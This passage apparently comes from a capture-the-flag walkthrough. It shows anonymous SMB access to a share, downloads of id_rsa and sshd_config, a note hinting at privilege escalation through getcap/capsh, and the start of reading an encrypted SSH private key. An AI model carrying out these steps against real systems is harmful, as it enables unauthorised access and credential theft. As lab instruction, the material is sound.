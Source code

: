   messages                            N   684379  Tue Feb 18 21:48:17 2020
  ppp                                 D        0  Tue Feb 18 21:48:17 2020
  samba                               D        0  Tue Feb 18 21:48:17 2020
  secure                              N    11937  Tue Feb 18 21:48:17 2020
  spooler                             N        0  Tue Feb 18 21:48:17 2020
  tallylog                            N        0  Tue Feb 18 21:48:17 2020
  tuned                               D        0  Tue Feb 18 21:48:17 2020
  wtmp                                N    25728  Tue Feb 18 21:48:17 2020
  xferlog                             N      100  Tue Feb 18 21:48:17 2020
  yum.log                             N    10915  Tue Feb 18 21:48:17 2020
  sshd_config                         N     3906  Wed Feb 19 17:46:38 2020
  todo                                N      162  Wed Feb 26 00:22:29 2020
  id_rsa                              N     1766  Thu Mar 19 14:43:16 2020
  note.txt                            N      128  Thu Mar 19 14:53:12 2020

                19976192 blocks of size 1024. 18164892 blocks available
smb: \>


All we are doing here is using the smbclient to connect to the known share and the -N flag tells smbclient to connect anonymously. (the same way we manually type user: anonymous with FTP).

What is interesting here is that it looks like we are in the same folder our FTP was in.. But this time there are more files being listed. What this probably means is that the SMB service runs as a user with higher permissions than FTP does, so we are seeing files that only (presumably smbuser) has access to. Notably for us are files such as id_rsa and sshd_config etc. Pull those off locally and see what they contain:

smb: \> get id_rsa
getting file \id_rsa of size 1766 as id_rsa (431.1 KiloBytes/sec) (average 431.2 KiloBytes/sec)
smb: \> get sshd_config
getting file \sshd_config of size 3906 as sshd_config (1271.4 KiloBytes/sec) (average 791.3 KiloBytes/sec)
smb: \> get todo
getting file \todo of size 162 as todo (52.7 KiloBytes/sec) (average 569.7 KiloBytes/sec)
smb: \> get note.txt
getting file \note.txt of size 128 as note.txt (41.7 KiloBytes/sec) (average 447.9 KiloBytes/sec)


Reading the contents we find something interesting in note.txt:

root@kali /smbdata: cat note.txt 
I removed find command for security purpose, But don't want to delete 'getcap'.

I don't think 'getcap & capsh' known to anyone

Sounds like a good privesc candidate!

Reading the ssh config we note that root is allowed to log in with ssh, and also that password auth is disabled, so we must use a private key. Lucky for us, id_rsa is a common / default name for a private ssh key. The suspense is killing us, time to read it:

root@kali /smbdata:cat id_rsa     
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,0111C403C183156C592743C68EA855BD
